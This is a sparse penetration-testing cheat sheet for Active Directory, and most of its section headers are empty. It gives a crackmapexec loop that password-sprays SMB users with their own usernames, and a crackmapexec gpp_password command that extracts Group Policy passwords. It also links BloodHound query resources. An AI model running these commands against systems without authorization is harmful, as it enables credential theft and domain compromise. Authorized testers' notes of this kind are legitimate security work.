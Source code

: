 # Recon

# Unauthenticated enumeration

# First foothold
### Username == password
Using crackmapexec to test for password equal to username on domain contoso.com

```
for word in $(cat users.txt); do crackmapexec smb 10.10.0.10 -u $word -p $word -d contoso.com; done
```

# Authenticated enumeration

### Checking GPP passwords
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_password
```

### Expanding BloodHound
- https://github.com/hausec/Bloodhound-Custom-Queries
- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
- https://www.trustedsec.com/blog/expanding-the-hound-introducing-plaintext-field-to-compromised-accounts/
- https://neo4j.com/docs/api/python-driver/current/


# Exploitation

# Active Directory exploitation

# Persistence

# Post-Exploitation

## Data-Exfiltration
Data exfiltration and DLP (Data Loss Prevention) bypass.

# Reporting / Collaborative
